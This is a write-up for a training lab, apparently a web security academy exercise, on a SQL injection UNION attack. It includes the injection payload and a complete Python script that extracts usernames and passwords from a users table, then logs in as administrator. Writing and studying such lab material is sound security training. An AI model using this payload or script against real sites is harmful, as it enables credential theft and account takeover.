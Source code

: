 ```yaml
---
title: 'SQLi Lab 9'
description: 'SQL injection to retrieve usernames and passwords from other tables'
---
```



## SQL injection UNION attack, retrieving data from other tables

<div style="text-align: justify;">
  This lab demonstrates how to use a SQL injection (SQLi) UNION attack to retrieve data from other tables. The vulnerable product category filter returns query results in the application's response. Using techniques learned in previous labs, I enumerated the `users` table and extracted all usernames and passwords. The retrieved administrator credentials were then used to log in and complete the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Determine the number of columns and which return text (e.g. `'+UNION+SELECT+'abc','def'--`).
- Use a `UNION SELECT` to pull `username` and `password` from the `users` table.
- Parse the HTML response to extract all credentials.
- Attempt login as the `administrator` user to solve the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional, comment out if not needed)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_sqli(url, payload):
    """Exploit SQLi and extract credentials table."""
    full_url = url.rstrip("/") + payload
    res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    creds = {}

    rows = soup.find_all("tr")
    for row in rows:
        cols = row.find_all(["th", "td"])
        if len(cols) == 2:
            username = cols[0].get_text(strip=True)
            password = cols[1].get_text(strip=True)
            creds[username] = password

    return creds

def login(url, username, password):
    """Log in using CSRF token and credentials, then check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    # Step 1: Get CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login form
    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }

    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")

        # Step 3: One last GET on base URL
        base_res = session.get(url, verify=False, proxies=proxies)
        base_res.raise_for_status()

        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved yet.")
            return False
    else:
        print("[-] Login failed.")
        return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    payload = "/filter?category='+UNION+SELECT+username,+password+FROM+users--"

    print("[*] Exploiting SQL injection...")
    creds = exploit_sqli(url, payload)

    if not creds:
        print("[-] No credentials found!")
        sys.exit(1)

    print("[*] Extracted credentials:")
    for user, pw in creds.items():
        print(f"   {user} : {pw}")

    if "administrator" in creds:
        print("[*] Trying to log in as administrator...")
        login(url, "administrator", creds["administrator"])
    else:
        print("[-] Administrator account not found.")

if __name__ == "__main__":
    main()
```